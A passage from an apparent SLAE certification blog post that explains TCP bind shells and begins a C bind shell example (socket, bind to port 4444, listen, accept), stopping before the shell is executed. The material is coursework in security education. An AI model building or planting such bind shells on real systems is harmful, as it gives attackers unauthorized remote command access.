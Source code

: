 # SLAE course
This blog post has been created for completing the requirements of the SecurityTube Linux.

Assembly Expert certification:
* https://www.pentesteracademy.com/course?id=3

Student ID: SLAE-1523

## Assignment#1: What to do ?

The first step of assignment#1 is to create a TCP bind shell in assembly.

This shellcode needs to be able to:
* Bind to a port
* Execute a shell on incoming connection

The second step is to create a script which will make the port configuration easy.

Note:
* All the commands used for this assignment were done on the last 64 bits version of KALI Linux.

## 1) First step: create a TCP bind shell
### 1.1) What is a bind shell

A bind shell is a shell that binds to a specific port on the target host to listen for incoming connections.

### 1.2) Example of a TCP bind shell in C
An example of a TCP bind shell in C can be found below. This example has been created in order to help me code the assembly version.
```c
#include <sys/socket.h>
#include <netinet/in.h>
#include <stdlib.h>
#include <unistd.h>


int main()
{
    // Create sockaddr_in struct
    struct sockaddr_in addr;
    // AF_INET for IPv4
    addr.sin_family = AF_INET;
    // Set port number to 4444
    addr.sin_port = htons(4444);
    // Listen on any interface
    addr.sin_addr.s_addr = INADDR_ANY;

    // Create the sock
    // AF_INET for IPv4
    // SOCK_STREAM for TCP connection
    int sockfd = socket(AF_INET, SOCK_STREAM, 0);

    // Bind address to sock
    bind(sockfd, (struct sockaddr *)&addr, sizeof(addr));

    // Use the created sock to listen for connections
    listen(sockfd, 0);

    // Accept connections
    int connfd = accept(sockfd, NULL, NULL);

    // Redirect the STDIN, STDOUT and STDERR into the socket
```